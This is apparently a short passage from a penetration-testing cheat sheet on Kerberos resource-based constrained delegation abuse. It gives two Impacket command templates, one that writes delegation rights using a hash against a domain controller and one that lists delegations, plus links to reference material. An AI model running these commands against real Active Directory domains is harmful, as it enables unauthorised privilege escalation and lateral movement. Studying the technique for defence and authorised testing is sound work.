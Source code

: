 {% code overflow="wrap" %}
```bash
# assign delegation
impacket-rbcd '<domain>/<user>' -hashes <:hash> -k -delegate-from <account> -delegate-to <account> -action write -dc-ip <hostname> -use-ldaps
# check delegation
impacket-findDelegation '<domain>/<user>':'<pass>' -dc-ip <ip> -k
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="Hacker Recipes" %}
{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations" %}
{% endtab %}

{% tab title="Blog Post" %}
{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}
{% endtab %}

{% tab title="Talk" %}
{% embed url="https://www.youtube.com/watch?v=byykEId3FUs" %}
{% endtab %}
{% endtabs %}
